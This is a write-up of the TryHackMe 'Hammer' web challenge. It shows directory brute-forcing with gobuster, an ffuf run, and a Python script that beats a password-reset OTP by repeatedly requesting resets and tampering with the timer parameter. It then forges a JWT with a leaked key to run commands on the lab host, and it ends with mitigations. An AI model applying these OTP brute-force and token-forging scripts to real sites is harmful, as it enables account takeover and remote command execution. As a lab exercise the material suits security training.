

# TryHackMe - Hammer (CTF Write-up)

> Author: Adam Pawelczyk
>
> Date: 2025.07.26
>
> Category: Web
>
> Difficulty: Medium
>
> [TryHackMe](https://tryhackme.com/room/hammer)

---

## Challenge Description

> With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?

The challenge focuses on exploiting weak authentication mechanisms and leveraging misconfigurations to achieve remote code execution.

## Goal

Bypass the authentication and retrieve both flags.

## TL;DR

- Email address was discovered through directory enumeration.
- Exploitation of weak OTP (one-time password) mechanism through a custom script enabled a password reset for a discovered user.
- Access to the dashboard revealed the first flag and a JWT-based command execution system.
- A key was discovered, enabling the creation of a valid admin JWT token.
- The forged token allowed command execution through a custom script, ultimately revealing the second flag.

## Enumeration

The first step was to perform a full port scan to discover open services:

```shell
sudo nmap 10.10.198.255 -p-
```

The scan revealed two open ports:

- 22: ssh
- 1337: http

### Initial Web Analysis

Accessing `http://10.10.198.255` displayed a login from with **email** and **password** fields, along with **Login** and **Forgot your password?** buttons.


Testing random credentials produced a generic "*Invalid Email or Password*" message, which prevented user enumeration.

Clicking on **Forgot your password?** redirects to `/reset_password.php`:


Submitting an invalid email returned the error message "*Invalid Email Address!*", which suggested the endpoint might be vulnerable to email enumeration. Although brute-forcing a valid email was not practical due to the large potential username and domain combinations, so an alternative approach was needed.

### Finding Valid Email

Inspecting the log in page's source code revealed an interesting comment that hinted at a directory naming convention:


Using this hint, a custom wordlist was created by prefixing the `hmr_` pattern to the standard `disrbuster` wordlist:

```shell
sed 's/^/hmr_/' /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt > directories.txt
```

A directory brute-force scan was then performed:

```shell
gobuster dir -u http://10.10.198.255:1337 -w directories.txt
```

The results included a `/hmr_logs` directory. Navigating to `http://10.10.198.255:1337/hmr_logs` revealed an `error.logs` file:



Reviewing the log file uncovered a valid email: `tester@hammer.thm`.

## Password Reset Bypass

Using `tester@hammer.thm` on the password reset form triggered a request for a 4-digit recovery code, along with a 180-second countdown timer.


Submitting a random code revealed the POST request data:


The `s` parameter controlled the remaining time before OTP expiration, allowing unlimited brute-force attempts.

## OTP Brute-Force Strategy

A 4-digit numeric wordlist was created:

```shell
seq -w 0000 9999 > codes.txt
```

An initial attempt with `ffuf` failed due to server-side rate limiting:

```shell
ffuf -w codes.txt -X POST -d "recovery_code=FUZZ&s=170" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.198.255:1337/reset_password.php -b "PHPSESSID=<REDACTED: PHP_SESSION_ID>" -fr "Invalid or expired recovery code!" -sf
```

To bypass this, a custom Python script was developed. The script continuously triggered a new password reset request and tested a single guess (`1234`) until it matched the server generated code. When the correct OTP was found, the script send a password reset request using the form fields identified during earlier testing (where response was printed after successful OTP submission), setting the password to `password`.

```python
import requests

url = 'http://10.10.198.255:1337/reset_password.php'
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1'
}
data = {
    'email': 'tester@hammer.thm'
}

def forgot_password(session):
   session.post(url, data=data, headers=headers)

def not_successful(response):
    return 'Invalid or expired recovery code!' in response.text

def reset_password(session, password):
    data = {
        'new_password': password,
        'confirm_password': password
    }

    return session.post(url, data=data, headers=headers)

def submit_otp(session, otp):
    data = {
        'recovery_code': otp,
        's': 170
    }

    return session.post(url, data=data headers=headers)

def try_until_success():
    otp = 1234

    while True:
        session = requests.Session()
        forgot_password(session)
        response = submit_otp(session, otp)

        if not_successful(response): continue

        if reset_password(session, 'password').status_code == 200:
            print('Successfully reset the password!')
        else:
            print('Failed to reset the password!')

        break;

try_until_success()
```

After several minutes, the password was successfully reset:


## Gaining Access

With the new credentials (`tester@hammer.thm : password`), logging into the application revealed the first flag and a command execution interface:


Most commands were disabled, but running `ls` listed a file named `188ade1.key` which could be downloaded via `http://10.10.198.255:1337/188ade1.key`


## Privilege Escalation via JWT

Examining the source of `/dashboard.php` revealed that command requests were sent with a hardcoded JWT token.


Decoding the token at [jwt.io](jwt.io) showed its payload:


A custom Python script was then created to send a command `cat /home/ubuntu/flag.txt` (location of the second flag - from the challenge page):

```python
import requests

url = 'http://10.10.198.255:1337/index.php'
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1'
}
data = {
    'email': 'tester@hammer.thm',
    'password': 'password'
}

def login(session):
   session.post(url, data=data, headers=headers)

def execute_command(session, command):
    url = 'http://10.10.198.255:1337/execute_command.php'
    headers['Authorization'] = 'Bearer <REDACTED: JWT_TOKEN>'
    headers['Content-Type'] = 'application/json'
    data = {
        'command': command
    }

    print(session.post(url, json=data, headers=headers).text)


session = requests.Session()
login(session)
execute_command(session, 'cat /home/ubuntu/flag.txt')
```

### JWT Tampering Attempts

Modifying the token to change the `role` field to `admin` resulted in an invalid signature error, indicating that the server verified JWT signatures.


Attempts to bypass this by setting the algorithm to `none` also failed.


The previously discovered `188ade1.key` file could be used as the signing key. Using it, a valid JWT was generated:


Executing the script with the forged token retrieved the second flag:


## Conclusion

This challenge showcased a realistic attack chain, starting with information disclosure through a log file that revealed a valid email address. A weak OTP mechanism, lacking proper rate-limiting, was then exploited to bypass the password reset process. After gaining access, a key was discovered, which allowed the forging of the JWT token. With these elevated privileges, direct command execution become possible, ultimately leading to the retrieval of the second flag.

## Skills Practiced

- Web and directory enumeration.
- Password reset exploitation and OTP bypass.
- JWT decoding, forging, and privilege escalation.

## Mitigations

- Do not store sensitive information in publicly accessible sources.
- Implement proper rate-limiting and account lockouts for OTP/password reset endpoints.
- Use strong, rotated keys for signing JWT tokens and avoid exposing them to users.

## Final Thoughts

This challenge highlights the importance of securing authentication mechanisms and sensitive information. The ability to bypass weak OTP systems and forge JWT tokens demonstrates how small misconfigurations can lead to significant security vulnerabilities. In real-world applications, it’s crucial to properly implement rate limiting, avoid exposing sensitive keys, and ensure that token signing is robust to prevent unauthorized access. Proper security measures can prevent attackers from exploiting such flaws and gaining control over systems.

**Note**: All sensitive data such as passwords, tokens, keys, and flags have been redacted in accordance with TryHackMe's write-up policy.